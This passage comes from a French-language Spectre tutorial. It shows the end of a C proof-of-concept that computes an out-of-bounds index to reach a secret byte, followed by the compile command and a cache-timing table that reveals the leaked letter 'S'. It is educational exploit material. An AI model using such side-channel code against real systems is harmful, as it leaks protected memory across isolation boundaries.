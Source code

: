 ```c
    }

}

int main(void) {
    for (int i = 0; i < sizeof(paged_buffer); i++) {
        paged_buffer[i] = 1; /* Permet d'éviter une optimisation appelée lazy allocation */
    }

    /*
     * L'index qu'on passe en argument sera utilisé de la manière suivante :
     * paged_buffer[buffer[idx] * PAGE_SIZE];
     * J'ai rappelé dans l'article sur meltdown et spectre que
     * buffer[idx]
     * était équivalent à
     * *(buffer + idx)
     * Donc pour accéder à l'adresse du premier octet de secret, on cherche
     * secret = buffer + idx
     * donc idx = secret - buffer
     * D'où le choix de l'argument dans l'instruction suivante.
     */
    get_all_access_time(secret - (char * ) buffer);
    return 0;
}
```

Encore une fois, ce code est très fourni en commentaires pour expliquer tous les mécanismes et les ajouts pour des cas particuliers. La sortie de ce programme est :

```
pixis@hackndo:~/spectre$ gcc -O0 poc_leak_one_byte.c -o poc_leak_one_byte && ./poc_leak_one_byte
    CACHE MEM CYCLES    HIT
---------------------------
[ ]    0  100   279 - A: 0
[ ]    0  100   292 - B: 0
[ ]    0  100   284 - C: 0
[ ]    0  100   288 - D: 0
[ ]    0  100   285 - E: 0
[ ]    0  100   288 - F: 0
[ ]    0  100   295 - G: 0
[ ]    0  100   284 - H: 0
[ ]    0  100   275 - I: 0
[ ]    0  100   264 - J: 0
[ ]    0  100   284 - K: 0
[ ]    0  100   258 - L: 0
[ ]    0  100   256 - M: 0
[ ]    0  100   267 - N: 0
[ ]    0  100   265 - O: 0
[ ]    0  100   277 - P: 0
[ ]    0  100   282 - Q: 0
[ ]    0  100   303 - R: 0
[*]   99    1    38 - S: 1
[ ]    0  100   275 - T: 0
[ ]    1   99   288 - U: 0
[ ]    0  100   300 - V: 0
[ ]    0  100   282 - W: 0
[ ]    0  100   276 - X: 0
[ ]    0  100   309 - Y: 0
[ ]    0  100   306 - Z: 0
```
